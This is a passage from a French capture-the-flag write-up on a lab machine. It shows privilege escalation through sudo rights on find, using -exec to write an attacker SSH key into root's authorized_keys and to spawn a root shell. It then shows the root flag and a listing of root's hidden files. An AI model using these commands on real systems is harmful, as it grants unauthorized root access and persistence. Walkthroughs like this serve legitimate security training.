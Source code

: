 Les utilisateurs Linux confirmés auront immédiatement recours à l'option *exec* de la commande :  

```plain
sudo /usr/bin/find -name recoverpassword.txt -exec bash -c 'echo ssh-rsa --- snip ma clé publique ssh --- > /root/.ssh/authorized_keys' \;
```

Bien que le fichier se soit créé correctement le serveur SSH ne semble pas accepter l'authentification par clé. J'ai eu recours à un appel plus simple :  

```bash
sudo /usr/bin/find -name recoverpassword.txt -exec bash \;
```

On obtient le second flag et une note sans intérêt :  

```bash
root@jetty:/root/Desktop# cat proof.txt 
136d05d01c8af5d3e3520d2c270f91f1
root@jetty:/root/Desktop# cat note.txt 
Say to Mary that I want to go on vacation on 2 weeks.
```

L'utilisateur root dispose d'un dossier caché :  

```plain
./Documents:
total 220
drwxr-xr-x  4 root root   4096 Oct 22  2018 .
drwx------ 17 root root   4096 Oct 27 03:53 ..
drwxr-xr-x  3 root root   4096 Oct  6  2018 .docs
drwxr-xr-x  2 root root   4096 Oct 22  2018 Tickets_cooked
-rw-r--r--  1 root root 207505 Oct 22  2018 Ticket_Toulouse.PDF

./Documents/.docs:
total 80
drwxr-xr-x 3 root root  4096 Oct  6  2018 .
drwxr-xr-x 4 root root  4096 Oct 22  2018 ..
-rw-r--r-- 1 root root 18944 Oct  6  2018 Accountabilty_not_cooked.xlsx
-rw-r--r-- 1 root root 11968 Oct  6  2018 AccountabiltyReportMorning-1112018.xlsx
-rw-r--r-- 1 root root 15872 Oct  6  2018 MoneyBalance.xlsx
drwxr-xr-x 2 root root  4096 Oct  6  2018 Password_keeper
-rw-r--r-- 1 root root 19456 Oct  6  2018 Pending_to_erase.xlsx

./Documents/.docs/Password_keeper:
total 4744
drwxr-xr-x 2 root root    4096 Oct  6  2018 .
drwxr-xr-x 3 root root    4096 Oct  6  2018 ..
-rw-r--r-- 1 root root     242 Oct  6  2018 database.txt
-rwxr-xr-x 1 root root 4839402 Oct  6  2018 password_keeper.exe
-rw-r--r-- 1 root root     263 Oct  6  2018 usage.txt

./Documents/Tickets_cooked:
total 104
drwxr-xr-x 2 root root  4096 Oct 22  2018 .
drwxr-xr-x 4 root root  4096 Oct 22  2018 ..
-rw-r--r-- 1 root root 45676 Oct  7  2018 adult_ticket_f.PDF
-rw-r--r-- 1 root root 45888 Oct  7  2018 child_ticket_f.PDF
```
